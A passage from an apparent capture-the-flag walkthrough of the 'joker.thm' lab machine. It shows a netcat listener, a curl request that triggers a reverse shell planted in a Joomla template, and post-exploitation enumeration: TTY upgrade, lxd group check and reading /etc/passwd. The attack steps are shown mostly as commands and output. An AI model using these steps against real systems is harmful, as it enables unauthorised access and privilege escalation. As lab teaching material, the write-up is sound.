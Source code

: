 `nc -nlvp 10001`

```jsx
listening on [any] 10001 ...
```

![image.png](image%209.png)

`curl -iLX GET http://joker.thm:8080/templates/beez3/error.php`

```jsx
listening on [any] 10001 ...
connect to [10.2.37.37] from (UNKNOWN) [10.10.58.1] 38480
Linux ubuntu 4.15.0-55-generic #60-Ubuntu SMP Tue Jul 2 18:22:20 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 03:51:56 up  1:24,  0 users,  load average: 0.04, 0.01, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data),115(lxd)
/bin/sh: 0: can't access tty; job control turned off

$ whoami
www-data
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data),115(lxd)
$ ğwd
/bin/sh: 3: ğwd: not found
$ groups
www-data lxd
$ export TERM=xterm
$ SHELL=/bin/bash script -q /dev/null

www-data@ubuntu:/$ getent group lxd
lxd:x:115:joker,www-data

www-data@ubuntu:/$ cat /etc/passwd | grep '/bin/bash'
root:x:0:0:root:/root:/bin/bash
joker:x:1000:1000:joker,,,:/home/joker:/bin/bash

www-data@ubuntu:/$ ls -lsa /home
total 12
4 drwxr-xr-x  3 root  root  4096 Oct  8  2019 .
4 drwxr-xr-x 22 root  root  4096 Oct 21  2019 ..
4 drwxr-xr-x  5 joker joker 4096 Oct 25  2019 joker

www-data@ubuntu:/$ ls -lsa /home/joker
```